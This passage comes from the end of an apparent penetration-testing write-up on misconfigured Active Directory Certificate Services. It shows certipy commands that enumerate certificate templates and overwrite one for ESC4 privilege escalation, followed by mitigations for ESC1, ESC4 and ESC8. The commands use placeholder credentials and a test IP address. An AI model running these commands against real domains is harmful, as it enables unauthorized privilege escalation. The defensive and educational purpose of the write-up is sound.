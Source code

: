 ```certipy find -u tevora@domain.local -p 'Longpassword123!' -dc-ip 10.10.10.10 -enabled -stdout```
```certipy template -u 'tevora@domain.local -p 'Longpassword123!' -template ESC4 -dc-ip 10.10.10.10 -configuration ESC4.json```

![[ESC4_4.png]](/assets/img/ADCS/ESC4_4.png)

### Mitigation and wrap-up

- ESC1: Remove the “ENROLLEE_SUPPLIES_SUBJECT” flag will prevent certificates from being requested by any domain account. If the flag cannot be removed, the certificate approval management must be activated (CA Certificate Manager Approval) before the certificate is issued, and not allow "AutoEnrollment" by default.
- ESC4: Review the ACLs on the templates and remove unnecessary access rights.
- ESC8: Disable NTLM authentication and HTTP endpoint. Otherwise, only allow HTTPS traffic and configure Extended Protection for Authentication (EPA).

Misconfigured ADCS is one of the most frequently exploited vulnerability in 2022, with Penetration Tester/Red Teamer utilizing these scenarios to escalate privileges on internal networks after an initial foothold. In order to prevent future exploitation on these vulnerabilities is to properly configure ADCS and ensure that all certificates are properly managed and configured. This may require regular audits and updates to certificate policies, as well as strict access controls to prevent unauthorized users from obtaining or manipulating certificates.
